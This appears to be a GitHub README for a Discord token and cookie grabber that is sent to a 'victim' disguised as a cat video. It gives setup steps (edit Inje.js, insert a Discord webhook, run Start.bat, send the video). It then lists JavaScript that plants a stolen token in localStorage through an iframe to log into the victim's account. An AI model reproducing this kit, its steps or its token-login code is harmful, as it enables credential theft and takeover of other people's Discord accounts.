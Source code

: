 **Image Tool By OK.@**


- edit file Inje.js
- enter your discord webhook 
- open Start.bat
- send Video Cat.webm for the victim


Discord Token & Cookies Logger - Grabber 
with a video # 6 sec ~ 
By OK. https://discord.gg/vfJknm825G

```let token = "";

function login(token) {
    setInterval(() => {
      document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
      location.reload();
    }, 2500);
  }

login(token);
```
